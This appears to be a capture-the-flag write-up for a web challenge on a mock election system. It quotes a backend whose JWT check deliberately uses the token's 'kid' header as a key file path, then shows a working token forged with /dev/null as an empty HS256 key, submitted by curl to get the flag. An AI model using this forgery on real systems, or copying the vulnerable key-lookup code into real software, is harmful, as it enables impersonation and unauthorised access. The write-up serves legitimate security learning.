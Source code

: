 ```yaml
---
layout: writeup
title: The voting logs ain't making sense
tags: WebX
---
```


## Description

A paranormal event was observed during the voting. Apparently multiple successful vote submissions were starting to be observed in the logs for an individual and votes for citizens that don't exist? Can you find out how an attacker may have done this and submit a vote for the citizen ID CIT1337 who has already voted?

<!--more-->

The code for the backend of all week 4 challenges was the same, so we also had that.


## Solution

I ended up solving this challenge in the exact same was as [I can be anyone](./I-can-be-anyone) as such the writeup is practically the same, as it was the same challenge

The challenge was about forging a vote for the system that it accepted. Here is the code for vote submissions.

```python
##### VOTE SUBMISSION
@voting_bp.route("/submit-vote", methods=["POST"])
def submit_vote():
    """
    Citizen submits a vote for their chosen party
    """
    try:
        auth_header = request.headers.get("Authorization")
        if not auth_header:
            return jsonify({"error": "Missing Authorization header"}), 401

        payload = decode_jwt_token(auth_header)
        if not payload:
            return jsonify({"error": "Invalid or expired token"}), 401

        data = request.get_json()
        if not data:
            return jsonify({"error": "No JSON data provided"}), 400

        party = data.get("party")
        if not party:
            return jsonify({"error": "Missing required field: party"}), 400

        citizen_id = payload.get("citizenId")
        name = payload.get("name")
        state = payload.get("state")
        vote_identifier = payload.get("vote_identifier")

        if not all([citizen_id, name, state, vote_identifier]):
            return jsonify({"error": "Invalid token payload"}), 401

        db = Database()
        success = db.submit_vote(citizen_id, party, state, vote_identifier)

        if success:
            response_data = {
                "success": True,
                "message": "Vote submitted successfully",
                "citizen_id": citizen_id,
                "party": party,
                "state": state
            }

            if citizen_id == "CIT100":
                response_data["i_can_be_anyone_flag"] = current_app.config["I_CAN_BE_ANYONE_FLAG"]
            elif citizen_id == "CIT1337":
                response_data["the_voting_logs_aint_making_sense_flag"] = current_app.config["THE_VOTING_LOGS_AINT_MAKING_SENSE_FLAG"]

            return jsonify(response_data)
        else:
            return jsonify({"error": "Vote already submitted or database error"}), 409

    except Exception as e:
        return jsonify({"error": f"Failed to submit vote: {str(e)}"}), 500
```

This shows how in order to submit a vote, you need a valid JWT, and you need a `party` value in your request body. Then if the `citizen_id` of your JWT is `CIT1337` you get the flag.

Lets look at the JWT code to see if we can forge a JWT token.

```python
import jwt

#...

def decode_jwt_token(token):
    try:
        if token.startswith("Bearer "):
            token = token[7:]

        unverified_header = jwt.get_unverified_header(token)
        kid = unverified_header.get("kid")
        alg = unverified_header.get("alg")

        if kid:
            try:
                public_key_path = kid
                with open(public_key_path, "r") as key_file:
                    public_key = key_file.read()
            except FileNotFoundError:
                return None
            except Exception:
                return None
        else:
            public_key_path = current_app.config["JWT_PUBLIC_KEY_PATH"]
            with open(public_key_path, "r") as key_file:
                public_key = key_file.read()

        payload = jwt.decode(
            token,
            public_key,
            algorithms=[alg]
        )

        return payload

    except jwt.ExpiredSignatureError:
        return None
    except jwt.InvalidTokenError:
        return None
    except Exception:
        return None
```



This is a dupliate challenge so I already knew the exploit was `kid` injection. 

Normally in a JWT if it has the `kid` header, and in this case, the `kid` header is used to dictate which key should be used to decrypt the token and thereby authenticate it. Therefore, if you set the `kid` header to point to a value that the user knows the value of, and then sign a JWT token with that key using a symetric algorithm such as `HS256` then you can forge any token you want. Luckily even if we don't know much files on this system, linux has a few preset files that you cant change the values within that we can just use for the symetric key, as we know its value. In this case I am using `/dev/null` this file is completely empty, and anything put in here is removed, so the symettric key in this case would be an empty string.

As such, lets make a JWT token in just the python terminal

```python
>>> import jwt
>>> payload = {"citizenId": "CIT1337", "name": "John Doe", "state": "Izzi", "vote_identifier": "ab23b8"}
>>> headers = {"kid": "/dev/null"}
>>> jwt.encode(payload, "", algorithm="HS256", headers=headers)
'eyJhbGciOiJIUzI1NiIsImtpZCI6Ii9kZXYvbnVsbCIsInR5cCI6IkpXVCJ9.eyJjaXRpemVuSWQiOiJDSVQxMzM3IiwibmFtZSI6IkpvaG4gRG9lIiwic3RhdGUiOiJJenppIiwidm90ZV9pZGVudGlmaWVyIjoiYWIyM2I4In0.zUOmbT9syBX09fuzdRFb8T4b-YZwOWmGgGo5KqvOdH0'
```

There is our token, time to submit our vote:

```bash
$ curl "http://mobile-app.commission.freedonia.vote/api/voting/submit-vote" -X POST -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsImtpZCI6Ii9kZXYvbnVsbCIsInR5cCI6IkpXVCJ9.eyJjaXRpemVuSWQiOiJDSVQxMzM3IiwibmFtZSI6IkpvaG4gRG9lIiwic3RhdGUiOiJJenppIiwidm90ZV9pZGVudGlmaWVyIjoiYWIyM2I4In0.zUOmbT9syBX09fuzdRFb8T4b-YZwOWmGgGo5KqvOdH0" -H "Content-Type: application/json" -d '{"party":1}'
{"citizen_id":"CIT1337","message":"Vote submitted successfully","party":1,"state":"Izzi","success":true,"the_voting_logs_aint_making_sense_flag":"cysea{you_got_to_be_KIDding_me_b60c85395d}"}
```

And look at that, we get the flag as the reply `cysea{you_got_to_be_KIDding_me_b60c85395d}`
